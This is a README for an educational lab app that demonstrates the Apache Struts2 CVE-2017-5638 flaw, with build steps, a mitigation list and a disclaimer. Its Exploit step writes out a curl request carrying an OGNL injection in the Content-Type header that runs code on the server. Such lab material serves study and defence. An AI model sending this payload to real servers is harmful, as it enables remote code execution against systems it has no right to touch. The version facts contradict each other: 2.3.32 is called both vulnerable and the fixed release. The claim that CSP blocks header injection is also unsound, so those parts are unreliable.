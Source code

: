 # Struts2 Vulnerable Application - CVE-2017-5638

## Overview
This project demonstrates the Apache Struts2 vulnerability CVE-2017-5638, which allows remote code execution (RCE) via crafted Content-Type headers during file upload requests. The vulnerability exists in the Jakarta Multipart parser used by Struts2.

## Vulnerability Details
- **CVE ID**: CVE-2017-5638
- **Description**: The vulnerability is caused by improper handling of Content-Type headers in file upload requests. An attacker can exploit this by sending a malicious Content-Type header containing OGNL (Object-Graph Navigation Language) expressions, which are evaluated on the server, leading to arbitrary code execution.
- **Affected Versions**: Struts 2.3.5 to 2.3.31 and 2.5 to 2.5.10.

## Demonstration
This application is configured with Struts2 version 2.3.32, which is vulnerable to CVE-2017-5638. The following steps demonstrate the vulnerability:

1. **Setup**:
   - Build the application using Maven: `mvn clean package`.
   - Deploy the generated WAR file to a servlet container (e.g., Apache Tomcat).

2. **File Upload Feature**:
   - Access the file upload form at `http://<server>:<port>/S2-045/index.jsp`.
   - Upload a file to test the functionality.

3. **Exploit**:
   - Use a tool like `curl` or a custom script to send a malicious request:
     ```bash
     curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Exploit-Executed')}.multipart/form-data" \
     -F "upload=@test.txt" \
     http://<server>:<port>/S2-045/fileUpload.action
     ```
   - Observe the response headers for the custom header `X-Test: Exploit-Executed`, indicating successful code execution.

## Mitigation
To protect against this vulnerability:
- Upgrade to Struts2 version 2.3.32 or later.
- Use a Content Security Policy (CSP) to restrict header injection.
- Validate and sanitize all user inputs.

## Disclaimer
This project is for educational purposes only. Do not use it in production environments or for malicious purposes.